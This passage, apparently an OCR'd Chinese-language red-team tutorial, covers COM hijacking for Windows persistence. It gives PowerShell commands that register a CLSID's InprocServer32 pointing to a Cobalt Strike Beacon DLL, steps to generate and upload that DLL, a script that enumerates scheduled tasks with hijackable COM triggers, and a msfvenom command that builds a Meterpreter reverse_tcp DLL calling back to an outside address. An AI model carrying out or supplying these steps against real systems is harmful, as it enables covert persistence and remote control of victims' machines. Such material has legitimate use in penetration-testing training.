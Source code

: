 
为了利用这一点，我们可以在 HKCU 中创建必要的注册表项并将它们指向 Beacon DLL。

```
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
PS C:\> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

生成DLL payload
```
转到Attacks > Packages > Windows Executable (S)，然后选择Windows DLL作为输出类型
```

上传
```
beacon> cd C:\
beacon> upload C:\Payloads\beacon.dll
```

当DllHost.exe加载这个 COM 条目时，我们得到一个 Beacon

寻找可劫持的 COM 组件的另一个好地方是在任务计划程序中。许多默认的 Windows 任务实际上不是在磁盘上执行二进制文件，而是使用自定义触发器来调用 COM 对象。而且因为它们是通过任务计划程序执行的，所以更容易预测它们何时会被触发。我们可以使用下面的 PowerShell 来查找兼容的任务。

```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```


通过msf生成恶意DLL
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=5555 -f dll > pentestlab.dll
````

# 加餐
